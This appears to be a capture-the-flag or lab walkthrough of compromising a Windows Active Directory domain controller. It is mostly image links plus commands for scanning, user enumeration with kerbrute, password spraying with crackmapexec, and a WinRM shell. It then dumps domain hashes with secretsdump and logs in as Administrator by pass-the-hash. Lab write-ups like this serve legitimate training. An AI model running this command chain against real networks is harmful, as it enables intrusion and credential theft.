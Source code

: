 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/03ab72ad-f5ce-4cba-8cfc-4cef30fce25d)
```
ping 192.168.2.3
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ee180358-9104-4781-b028-c8db297edcd5)
```
nmap -p- 192.168.2.3 -v -sV
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/cdb46432-79fe-41c5-be07-fef63c7ea190)
```
ftp 192.168.2.1
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0eb4650a-2635-4810-b63a-d1b30ae59d85)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/fb1cc7cd-108e-4619-a67b-b370e1c807e4)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5d850e7a-db8e-4091-a359-e7c1594a54ac)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ec6b3d6b-97a9-4440-af9e-cdcbc3259206)
```
rpcclient -U login%pass -c "querydispinfo" 192.168.2.3
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/75d7b9ad-bcce-49e7-9cc5-7bb1f191534a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/aeb599c2-ed92-435b-924e-a750977ca5ff)
```
 nmap -p- 192.168.2.3 -v -sC 
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0dfd819e-5919-4085-8e8d-9c5b9759cde8)

https://spy-soft.net/kerbrute-for-attack-kerberos-active-directory/
https://github.com/ropnop/kerbrute/releases

```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.3 users.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/db1c1f14-a345-4d96-a554-502f58dae018)
```
crackmapexec winrm 192.168.2.3 -d codeby.cdb -u users.txt -p 'password'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0651e750-814a-4a26-927b-91fae9393692)
```
evil-winrm -i 192.168.2.3 -u USER -p PASSWORD
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c55a09ff-833f-4ad3-9fc5-c4effee3d876)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a87855cf-1906-4349-a14a-de031e97b441)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d5ba939e-86ef-43e7-a21f-03145f892c10)
```
impacket-secretsdump codeby.cdb/aleksey.ibragimov:'You_Shall_Not_Pass@@#'@192.168.2.3 -just-dc
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2a486bea-d2cd-4195-98bf-d3779e0e48e8)
```
evil-winrm -i 192.168.2.3 -u Administrator -H HASH
``
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2b88467f-2bc3-466e-8d74-6b7475b3c884)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f80ec901-dfd3-4db1-8ada-637789291c80)

